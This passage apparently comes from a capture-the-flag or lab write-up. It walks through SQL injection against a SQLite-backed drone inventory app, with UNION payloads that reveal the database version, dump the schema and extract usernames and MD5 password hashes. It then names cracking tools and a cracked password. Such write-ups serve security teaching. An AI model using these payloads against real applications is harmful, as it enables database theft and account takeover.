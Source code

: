 We can find some general information about the database by checking the version for example. For this we can use `' UNION SELECT 1, 1, sqlite_version() --` as the input, which will return the following json.

```json
[{ "name": 1, "quantity": 1, "weapons": "3.40.1" }]
```

Now that we've confirmed that sqlite is being used, and found which version is running, we can use internal tables to find more info. To get the table schemas for instance, we can query the `sqlite_master` table using `'UNION SELECT sql,1,1 FROM sqlite_master--`.

```json
[
    {
        "name": null,
        "quantity": 1,
        "weapons": 1
    },
    {
        "name": "CREATE TABLE drone_comments(id INTEGER PRIMARY KEY AUTOINCREMENT, drone_name TEXT, comment TEXT, FOREIGN KEY(drone_name) REFERENCES drones(name))",
        "quantity": 1,
        "weapons": 1
    },
    {
        "name": "CREATE TABLE drones(name TEXT PRIMARY KEY, quantitiy TEXT, weapons TEXT)",
        "quantity": 1,
        "weapons": 1
    },
    {
        "name": "CREATE TABLE sqlite_sequence(name,seq)",
        "quantity": 1,
        "weapons": 1
    },
    {
        "name": "CREATE TABLE users(username TEXT PRIMARY KEY, avatar TEXT, bio TEXT, password TEXT)",
        "quantity": 1,
        "weapons": 1
    }
]
```

We can now also query which users exists, and get their (hashed) passwords using `'UNION SELECT username,bio,password FROM users--`. The password hashes in the database look like MD5 hashes, so we could likely crack a few using [`john`](https://www.openwall.com/john/) or [`hashcat`](https://hashcat.net/hashcat/).

There are also some website using massive pre-computed lookup tables, one of which is [CrackStation](https://crackstation.net/). If we lookup the hashes there, we find that the user "pip" is using "RumbleInTheJungle" as their password.
